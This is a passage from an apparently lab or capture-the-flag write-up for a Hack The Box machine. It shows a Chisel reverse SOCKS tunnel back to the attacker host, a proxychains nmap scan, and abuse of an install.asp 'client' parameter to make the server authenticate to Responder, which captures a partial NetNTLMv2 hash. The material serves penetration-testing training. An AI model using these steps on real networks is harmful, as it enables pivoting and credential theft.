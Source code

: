 Starting **Chisel** server on our client:
```
./chisel server --socks5 --reverse -p 8000
```

Connecting to the **Chisel** server from the box:
```
.\chisel.exe client 10.10.14.3:8000 R:socks
```

The subnet is big and scanning could take long, but the default gateway can be scanned for some known ports:
```
IPv4 Address. . . . . . . . . . . : 172.20.180.149
Subnet Mask . . . . . . . . . . . : 255.255.240.0
Default Gateway . . . . . . . . . : 172.20.176.1
```

Port scanning default gateway:
```
proxychains nmap -sT -Pn -n -p 80,443 172.20.176.1
```
```
PORT    STATE  SERVICE
80/tcp  open   http
443/tcp closed https
```

Adding hostname with the IP to our _/etc/hosts_ file to access it on a browser:
```
172.20.176.1    softwareportal.windcorp.htb
```

After configuring the proxy in the browser accordingly, it is possible to access the web service on port 80.

### Enumerating Web Service

The website has a list of known software packages and according to the URL, they are loaded from the IP of _webserver01_:
```
http://softwareportal.windcorp.htb/install.asp?client=172.20.180.149&software=7z1900-x64.exe
```

When changing the _client_ parameter to our client and sniffing the network packets with **Wireshark**, then we observe that it tries to connect to port 5985.
This port is used for **WinRM** and a listener with **Responder** can be started to intercept the authentication hash:
```
responder -I tun0
```

Changing _client_ parameter to our IP and sending the request:
```
http://softwareportal.windcorp.htb/install.asp?client=10.10.14.3&software=jamovi-1.6.16.0-win64.exe
```

The **NetNTLMv2** of the user _localadmin_ is intercepted:
```
[WinRM] NTLMv2 Client   : 10.10.11.102
[WinRM] NTLMv2 Username : windcorp\localadmin
[WinRM] NTLMv2 Hash     : localadmin::windcorp:89cd95c4837c8e29:10E5D931BD8899E673F9642DC3B2(...)
```
